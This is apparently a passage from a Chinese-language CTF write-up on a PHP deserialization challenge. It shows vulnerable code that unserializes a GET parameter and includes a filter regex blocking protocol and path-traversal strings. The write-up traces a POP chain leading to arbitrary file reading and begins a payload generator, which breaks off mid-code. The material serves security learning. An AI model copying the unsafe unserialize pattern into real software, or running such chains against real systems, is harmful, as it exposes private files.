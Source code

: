 ```php
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params = array();
    }

    public function __get($key)
    {
        $func = $this->params;
        return $func();
    }  
}

if(isset($_GET['chal']))
{
    $chal = unserialize($_GET['chal']);
}
else
{
    $show = new Show('index.php');
    $show->_show();
}
?>
```

%100反序列化链构造

1. `Show::__wake`是唯一可以入手的地方

2. 在这个方法中只有$this->source可以构造pop链的连接点

阅读代码发现`Show::__toString`会被` if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source))`调用

3. `Show::__toString`:  $this->str['str']->source和`Test::__get`构成链接点
4. `Test::__get`: `$func = $this->params;return $func();`和`Read::__invoke`构成链接点
5. 而Read()可以任意读取文件

payload生成:

```php
<?php
class Show
{
    public $source;
    public $str;
    public function __construct($file="")
    {
        
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|fllllllaaaaaag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
```